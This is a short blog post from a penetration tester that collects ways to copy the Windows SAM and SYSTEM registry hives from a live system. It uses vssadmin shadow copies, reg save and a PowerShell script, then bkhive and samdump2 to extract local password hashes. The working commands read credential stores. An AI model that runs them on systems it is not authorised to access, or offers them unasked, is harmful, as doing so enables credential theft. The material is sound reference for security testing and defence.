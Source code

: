 title: Manual Local Hash Extraction
publish: True
categories: [network security]

There has been enough interest around the topic of manual local hash extraction that I wanted to document all of the techniques I am aware of in one place.

<!-- READMORE -->

The SAM and SYSTEM hives hold the necessary information to acquire authentication hashes for all local users on a Windows operating system. Normally, these files are locked and inaccessible, even by the SYSTEM and Administrator accounts. The following techniques are ways to access the SAM and SYSTEM hives within a Windows operating system during normal operation. Be advised that these techniques require Administrator or SYSTEM level privileges.

### Volume Shadow Copy Service

```
vssadmin create shadow /for=c: #if required
vssadmin list shadows
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<#_from_above>\windows\system32\config\SYSTEM .
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<#_from_above>\windows\system32\config\SAM .
```

[Reference](http://pauldotcom.com/2011/11/safely-dumping-hashes-from-liv.html)

### Registry Access

```
reg save hklm\sam SAM
reg save hklm\system SYSTEM
```

[Reference](http://exfiltrated.com/tools.php#SAMExtract)

### PowerShell Script

```
$service=(Get-Service -name VSS)
if($service.Status -ne "Running"){$notrunning=1;$service.Start()}
$id=(gwmi -list win32_shadowcopy).Create("C:\","ClientAccessible").ShadowID
$volume=(gwmi win32_shadowcopy -filter "ID='$id'")
`cmd /c copy "$($volume.DeviceObject)\windows\system32\config\SAM"\`
$volume.Delete();if($notrunning -eq 1){$service.Stop()}
```

[Reference](http://www.canhazcode.com/index.php?a=4)

### Finishing the Job

Use the following commands to finish the job. Both applications are included in the Kali default tool set.

``` bash
bkhive SYSTEM keyfile
samdump2 SAM keyfile
```
